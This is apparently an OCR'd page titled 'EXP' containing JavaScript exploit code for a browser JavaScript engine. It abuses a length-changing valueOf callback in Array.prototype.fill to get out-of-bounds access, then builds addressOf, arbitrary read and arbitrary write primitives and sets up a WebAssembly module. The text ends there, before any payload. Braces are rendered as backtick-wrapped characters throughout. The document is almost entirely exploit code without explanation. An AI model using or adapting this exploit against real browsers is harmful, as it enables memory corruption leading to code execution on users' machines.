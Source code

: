 ## EXP

```
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
var Uint32 = new Int32Array(buf);

function f2i(f)
`{`
    float64[0] = f;
    return bigUint64[0];
`}`

function i2f(i)
`{`
    bigUint64[0] = i;
    return float64[0];
`}`


function hex(i)`{`
    return '0x' + i.toString(16).padStart(16, '0');
`}`

array = [];
array.length = 0xffffffff;
arr = array.fill(1.1, 0x80000000 - 1, `{`valueOf() `{`
  array.length = 0x100;
  array.fill(1.1);
  return 0x80000000;

`}``}`);
let a = new Array(0x12345678,0); 
let ab = new ArrayBuffer(8);


let idx = arr.indexOf(i2f(0x1234567800000000n)); 
function addressOf(obj)
`{`
    a[0] = obj;         
    return f2i(arr[idx]);
`}`

let backstore_ptr_idx = arr.indexOf(i2f(8n)) + 1; 
function arb_read(addr)
`{`
    arr[backstore_ptr_idx] = i2f(addr);
    let dv = new DataView(ab); 
    return f2i(dv.getFloat64(0,true)) 
`}`

function arb_write(addr,data)
`{`
    arr[backstore_ptr_idx] = i2f(addr);
    let ua = new Uint8Array(ab); 
    ua.set(data);
`}`

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
```
